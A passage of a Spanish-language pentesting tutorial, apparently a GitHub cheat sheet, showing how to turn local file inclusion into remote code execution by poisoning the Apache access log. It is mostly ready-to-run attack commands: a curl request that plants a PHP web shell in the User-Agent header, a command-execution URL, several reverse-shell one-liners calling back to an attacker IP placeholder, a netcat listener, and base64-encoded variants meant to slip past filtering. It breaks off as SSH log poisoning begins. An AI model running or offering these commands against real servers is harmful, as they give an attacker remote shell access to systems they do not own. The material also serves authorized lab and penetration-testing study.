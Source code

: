 ```bash
curl -s -H "User-Agent: <?php system($_GET['cmd']); ?>" "http://127.0.0.1/example.php?file=/var/log/apache2/access.log"
```

Al recargar la pagina se nos mostrara el resultado del comando dentro del archivo log en lugar del tipico User-Agent.

```bash
http://127.0.0.1/example.php?file=/var/log/apache2/access.log&cmd=id
```

De ahi podemos mandar una reverse shell:

```bash
nc -e /bin/bash <IP KALI> 443
bash -i >& /dev/tcp/<IP KALI>/8080 0>&1
bash -c 'bash -i >& /dev/tcp/<IP KALI>/8080 0>&1'
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP KALI> 1234 >/tmp/f
```

```bash
rlwrap nc -lvnp 443
```

Si en caso de darles error en todos los anteriores, se puede usar el truco de encodearlo en base64 y mandar eso para que se desencodee y pipearlo a una shell:

```bash
echo "nc -e /bin/bash <IP KALI> 443" | base64; echo

echo "bash -i >& /dev/tcp/<IP KALI>/8080 0>&1" | base64; echo

echo "bash -c 'bash -i >& /dev/tcp/<IP KALI>/8080 0>&1'" | base64; echo

echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP KALI> 1234 >/tmp/f" | base64; echo
```

copiar el resultado y mandar con PHP de la siguiente manera:

```bash
<?php system("echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgPElQIEtBTEk+IDEyMzQgPi90bXAvZg== | base64 -d | bash"); ?>
```

al final quedaria asi:

```bash
curl -s -H "User-Agent: <?php system("echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgPElQIEtBTEk+IDEyMzQgPi90bXAvZg== | base64 -d | bash"); ?>" "http://127.0.0.1/example.php?file=/var/log/apache2/access.log"
```

#### SSH LOGS

En caso de visualizar el archivo **/var/log/auth.log** es ahi donde se registra los logs de autenticacion de SSH, (se tiene que tener SSH en el equipo para esta prueba), como ahi se registra el nombre se usuario que quiere ingresar y ya sea exitoso o no el logeo igual se registra si que podemos hacer lo siguiente:
